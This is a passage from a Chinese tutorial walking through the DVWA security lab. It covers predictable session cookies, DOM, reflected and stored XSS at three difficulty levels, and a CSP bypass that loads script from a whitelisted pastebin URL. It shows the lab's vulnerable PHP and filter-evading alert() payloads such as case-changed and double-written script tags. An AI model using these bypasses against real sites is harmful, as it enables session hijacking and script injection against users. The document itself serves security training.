if ($_SERVER['REQUEST_METHOD'] == "POST") {
    $cookie_value = time();
    setcookie("dvwaSession", $cookie_value);
}
?>
```

将获取当前的时间戳作为了会话的值


[时间戳转换工具](https://tool.lu/timestamp/)


在bp上抓包，复制Cookie信息



在hackbar插件上发送请求


构造一下登录的payload: 

```
dvwaSession=1690808572; security=medium; PHPSESSID=esghfd6iq36q5em6hbhl5iim5v
```

请求地址：

```
http://192.168.80.145/dvwa/vulnerabilities/weak_id/
```


### High级别

```php
<?php

$html = "";

if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if (!isset ($_SESSION['last_session_id_high'])) {
        $_SESSION['last_session_id_high'] = 0;
    }
    $_SESSION['last_session_id_high']++;
    $cookie_value = md5($_SESSION['last_session_id_high']);
    setcookie("dvwaSession", $cookie_value, time()+3600, "/vulnerabilities/weak_id/", $_SERVER['HTTP_HOST'], false, false);
}

?> 
```

```php
setcookie(name,value,expire,path,domain,secure,httponly)
 参数 	             描述
name 	    必需。规定cookie的名称。
value 	    必需。规定cookie的值。
expire   	可选。规定cookie的有效期。
path 	    可选。规定cookie的服务器路径。
domain 	    可选。规定cookie的域名。
secure 	    可选。规定是否通过安全的HTTPS连接来传输cookie。
httponly 	可选。规定是否Cookie仅可通过HTTP协议访问。
```

抓包发现，使用了md5加密了每次`last_session_id_high`的值，但是依然无法改变每次加一的规律
 所以只需将数字使用md5加密，循环的方式跑脚本，依然可以破解


## XSS(DOM)

XSS 又称CSS(Cross Site Scripting)或[跨站脚本攻击](https://so.csdn.net/so/search?q=跨站脚本攻击&spm=1001.2101.3001.7020)，攻击者在网页中插入由JavaScript编写的恶意代码，当用户浏览被嵌入恶意代码的网页时，恶意代码将会在用户的浏览器上执行。

XSS攻击可分为三种：分别为反射型(Reflected)，存储型(Stored)和DOM型。

    反射型xss：只是简单地把用户输入的数据反射给浏览器，简单来说，黑客往往需要引诱用户点击一个恶意链接，才能攻击成功。（经后端，不经数据库）
    
    存储型XSS：将用户输入的数据存储在服务器端。用户访问了带有xss得页面代码后，产生安全问题。(经后端和数据库)
    
    DOM XSS：通过修改页面的DOM节点形成的XSS。客户端的脚本程序可以通过DOM动态地检查和修改页面内容，它不依赖于提交数据到服务器端，而从客户端获得DOM中的数据在本地执行，如果DOM中的数据没有经过严格确认，就会产生DOM XSS漏洞。一般是浏览器前端代码进行处理。(不经过后端，是基于文档对象模型的一种漏洞，是通过url传入参数去控制触发的)
**XSS危害**

```
1.挂马
2.盗取用户Cookie。
3.DOS（拒绝服务）客户端浏览器。
4.钓鱼攻击，高级的钓鱼技巧。
5.删除目标文章、恶意篡改数据、嫁祸。
6.劫持用户Web行为，甚至进一步渗透内网。
7.爆发Web2.0蠕虫。
8.蠕虫式的DDoS攻击。
9.蠕虫式挂马攻击、刷广告、刷浏量、破坏网上数据
10.其它安全问题
```

### LOW级别

```php
<?php

# No protections, anything goes

?>
```

发现并没有做任何过滤


点击了select按钮后，地址栏链接发生变化


构造xss语句，看到出现弹窗，代码执行成功，说明存在xss漏洞。

```js
<script>alert(/xss/)</script>
```


### Medium级别

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

stripos() 函数查找字符串在另一字符串中第一次出现的位置。此处过滤了<script

尝试使用img标签

```js

```

发现页面没有变化

查看页面代码，发现我们构造的语句已经被插入到了value当中，不能成功执行的原因是select标签中只允许内嵌option标签，而option标签是不能嵌套我们构造的img标签的，因此我们需要先将前面的select标签和option标签都闭合后才能使用img标签.


```js
</select></option>
```


### High级别

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?> 
```

此处使用了白名单过滤，只允许 传的 default值 为 French English German Spanish 其中一个

只能找方法绕过服务器端的处理，直接在本地运行我们构造的语句，可以过“#”来注释掉后面的内容，因为URL栏中的“#”之后的内容不会被发送到服务器当中去，不会经过JS的过滤，只在客户端显示，可以直接与浏览器进行交互。

```js
#<script>alert('xss');</script>
```


## XSS(Reflect)反射型

```php
 <?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>

```

### LOW级别

发现没有什么防御，直接`<script>alert('xss');</script>`


### Medium级别

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}
?> 
```

发现源码过滤了`<script>`,可以通过大写字母，双写，输入其他可执行弹窗的标签等方法来实现攻击.

如果用`<script>alert('xss')</script>`会直接显示alert('xss')

```js
//大写
<Script>alert('xss')</script>

//双写
<sc<script>ript>alert('xss')</script>


```


### High级别

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

```

发现preg_replace 函数，是执行一个正则表达式的搜索和替换，直接将所有的`<script>`无论大小写都进行了过滤，但并未对其他标签进行限制，所以我们继续使用img等标签来进xss利用。

```js

```


## XSS(Stored)存储型

### LOW级别

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?> 
```

查看源代码，发现使用mysqli_real_escape_string函数来对string中的特殊符号进行转义处理，但并未对我们输入的Name和Message进行xss的过滤。

因此我们只需要直接输入JS代码进行攻击即可得到弹窗，攻击成功。

在name输入框中输入`<script>alert('xss')</script>`


### Medium级别

```php
 <?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>

```

查看源代码，发现将Message所有可能xss攻击的标签都进行了转义或过滤，但对Name仅仅限制了`<script>`的标签，因此我们依旧可以在Name中使用大写、双写、使用其他标签等方法来进行注入。

```js
<Script>alert(1)</script>
```


修改最大长度


### Hign级别

```php
 <?php
 
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
 
    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );
 
    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
 
    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
 
    //mysql_close();
}
 
?>
```

- 查看代码，发现在Medium的基础上对Name的输入进行了<script>的转义限制，因此我们只需要换一个同样能进行弹窗的标签即可.

```php

```


## CSP Bypass

```
CSP Bypass全称是Content-Security-Policy,中文叫做绕过内容安全策略。Content-Security-Policy是一个HTTP响应头的名称，现代浏览器使用它来加强文档（或网页）的安全性。  

Content-Security-Policy头允许你限制哪些资源（如JavaScript、CSS、图像等）可以被加载，以及它们可以从哪些URL加载。虽然它主要是作为一个HTTP响应头使用，但你也可以通过元标签来应用它。内容安全策略这一术语通常被缩写为CSP。
```

### LOW级别


源码：

```php
<?php

$headerCSP = "Content-Security-Policy: script-src 'self' https://pastebin.com hastebin.com www.toptal.com example.com code.jquery.com https://ssl.google-analytics.com ;"; // allows js from self, pastebin.com, hastebin.com, jquery and google analytics.

header($headerCSP);

# These might work if you can't create your own for some reason
# https://pastebin.com/raw/R570EE00
# https://www.toptal.com/developers/hastebin/raw/cezaruzeka

?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    <script src='" . $_POST['include'] . "'></script>
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>You can include scripts from external sources, examine the Content Security Policy and enter a URL to include here:</p>
    <input size="50" type="text" name="include" value="" id="include" />
    <input type="submit" value="Include" />
</form>
';
```

首先，通过设置 `$headerCSP` 变量来定义 CSP 的策略规则。

```php
$headerCSP = "Content-Security-Policy: script-src 'self' https://pastebin.com hastebin.com www.toptal.com example.com code.jquery.com https://ssl.google-analytics.com ;";
```

可以看到被信任的网站有：`https://pastebin.com、hastebin.com、www.toptal.com、example.com、code.jquery.com 和 https://ssl.google-analytics.com`


```php
# 恶意js地址 
https://www.segmentfault.com.haozi.me/j.js
```


打开网络，查看响应头部信息，发现源码中`$headerCSP`变量定义的 CSR 策略白名单


以这个地址`https://pastebin.com/`为例，它是个快速分享文本内容的网站

可以在 pastebin 网站上自己写一个 javascript 代码 `alert("zs666")`，保存然后记住链接。


新建Paste并输入脚本


可以根据实际需要获得各种格式的内容链接，这里我只需要 raw，纯文本格式的


`https://pastebin.com/raw/X060a7tT`

输入到靶场的url中


但是出现了问题


**X-Content-Type-Options：**

---

互联网上的资源有各种类型，通常浏览器会根据响应头的Content-Type字段来分辨它们的类型。例如："text/html"代表html文档，"image/png"是PNG图片，"text/css"是CSS样式文档。然而，有些资源的Content-Type是错的或者未定义。这时，某些浏览器会启用MIME-sniffing来猜测该资源的类型，解析内容并执行。

---

例如，我们即使给一个html文档指定Content-Type为"text/plain"，在IE8-中这个文档依然会被当做html来解析。利用浏览器的这个特性，攻击者甚至可以让原本应该解析为图片的请求被解析为JavaScript。

---

这个header主要用来防止在IE9、chrome和safari中的MIME类型混淆攻击。firefox目前对此还存在争议。通常浏览器可以通过嗅探内容本身的方法来决定它是什么类型，而不是看响应中的content-type值。通过设置 

 X-Content-Type-Options：如果content-type和期望的类型匹配，则不需要嗅探，只能从外部加载确定类型的资源。举个例子，如果加载了一个样式表，那么资源的MIME类型只能是text/css。

---

**相关博客详解：**

[web安全：x-content-type-options头设置](https://blog.csdn.net/juruiyuan111/article/details/114964427)

[Web安全之充分利用 X-Content-Type-Options](https://blog.csdn.net/luduoyuan/article/details/131196398)

使用BP抓包


修改响应报文中的 `Content-Type: text/plain; charset=utf-8` 为 `Content-Type: text/javascript; charset=utf-8`


成功弹框
